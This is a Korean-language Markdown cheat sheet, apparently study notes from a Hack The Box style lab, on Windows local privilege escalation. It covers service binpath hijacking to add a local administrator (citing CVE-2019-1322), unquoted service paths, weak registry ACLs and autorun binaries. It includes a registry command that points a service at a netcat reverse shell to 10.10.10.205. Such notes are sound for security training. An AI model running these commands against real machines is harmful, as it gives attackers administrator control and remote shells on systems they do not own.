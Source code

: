 ```
```net localgroup administrators```

### 서비스 바이너리 경로 변경
```sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"```

### 서비스 중지
```sc stop WindscribeService```

### 서비스 시작
```sc start WindscribeService```

### 로컬 관리자 그룹 추가 확인
```net localgroup administrators```

> 추가 참고 : [CVE-2019-1322](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322)

<br/><br/>
## Cleanup

### Binary Path 되돌리기
```sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"```

### 서비스 다시 시작하기
```sc start WindScribeService```

### 서비스 실행 확인
```sc query WindScribeService```

<br/><br/>
## 인용되지 않은 서비스 경로

### 서비스 바이너리 경로
```C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe```

### 서비스 쿼리
```sc qc SystemExplorerHelpService```

#### 바이너리 생성 예
- `C:\Program.exe\`
- `C:\Program Files (x86)\System.exe`

### 인용되지 않은 서비스 경로 검색
```wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """```

<br/><br/>
## 허용 레지스트리 ACL

### 레지스트리에서 약한 서비스 ACL 확인
```accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services```

### PowerShell을 사용하여 ImagePath 변경
```Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"```

<br/><br/>
## 수정 가능한 레지스트리 자동 실행 바이너리

### 시작 프로그램 확인
```Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl```

- [참고 게시물](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html)
- [참고 사이트](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2)

<br/><br/>
# 커널 익스플로잇

```